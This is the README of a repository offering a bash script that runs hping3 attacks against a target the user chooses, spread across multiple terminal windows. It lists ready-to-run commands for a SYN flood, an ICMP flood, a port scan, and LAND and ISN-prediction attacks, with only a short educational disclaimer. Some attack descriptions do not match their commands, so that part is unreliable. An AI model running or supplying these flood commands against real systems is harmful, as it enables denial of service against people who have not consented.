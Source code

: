 # DdosHping3

Welcome to the **DdosHping3** repository! This project provides a bash script that allows users to simulate various network attack scenarios using `hping3`. The script offers a user-friendly interface for selecting attack types, targeting specific IPs, and managing multiple terminal instances for concurrent execution.

## Table of Contents

- [Introduction](#introduction)
- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Available Attacks](#available-attacks)
- [Script Details](#script-details)
- [Disclaimer](#disclaimer)
- [Contributing](#contributing)
- [License](#license)

## Introduction

This repository serves as a tool for educational purposes, particularly in understanding network security, penetration testing, and the implications of various types of Denial-of-Service (DoS) attacks. By using this script, users can experiment in a controlled environment to learn how these attacks work and how to defend against them.

## Prerequisites

Before using the script, ensure you have the following installed on your system:

- **hping3**: This tool is essential for crafting and sending custom TCP/IP packets. The script will attempt to install it if it's not already present.
- **Terminal Emulator**: The script supports either `xterm` or `gnome-terminal`. Ensure one of these is installed.
- **wmctrl** (optional): This tool can be used for automatically arranging terminal windows, though it's not mandatory.

## Installation

To set up the necessary components, follow these steps:

1. **Clone the repository:**
   ```bash
   git clone https://github.com/hacksudo/DdosHping3.git
   cd DdosHping3

    Make the script executable:

    bash

chmod +x attack_script.sh

Install hping3 (if not installed):

bash

sudo apt-get install -y hping3

Install wmctrl (optional):

bash

    sudo apt-get install -y wmctrl

Usage

To run the script, execute the following command:

bash

./attack_script.sh

You will be prompted to enter:

    Target IP or hostname: Specify the target you wish to attack.
    Attack type: Choose from the available options.
    Number of terminal instances: Indicate how many terminals you want to open for the attack.

The script will then initiate the chosen attack across the specified number of terminal windows.
Available Attacks

The script currently supports the following attack types:

    Port Scanning: Scans for open ports in the range 21-500.
        Command: hping3 -S --scan 21-500 <target>
    SYN Flood Attack: Floods the target with SYN packets to overwhelm the server.
        Command: hping3 -S -p 80 <target> --flood
    LAND Attack: Sends packets with the target IP as both the source and destination.
        Command: hping3 -S -p 80 <target> -a 127.0.0.1
    SMURF Attack: Uses ICMP echo requests to flood the target.
        Command: hping3 --icmp --flood <target> -a 127.0.0.1
    TCP Sequence Prediction Attack (ISN Prediction): Attempts to predict the initial sequence number of TCP connections.
        Command: hping3 -S -p 80 -Q 127.0.0.1

Script Details

The script is designed to check for the necessary tools, prompt the user for inputs, and launch multiple terminal windows running the selected attack. It also includes checks for terminal emulator availability and attempts to arrange the windows for better visibility.
Disclaimer

This script is intended for educational and research purposes only. Do not use this script against any system without explicit permission. Unauthorized access to computer systems is illegal and unethical. Always use responsibly and ethically.
Contributing

Contributions are welcome! If you have suggestions for improvements or new features, please create a pull request or open an issue.
License

This project is licensed under the MIT License. See the LICENSE file for details.
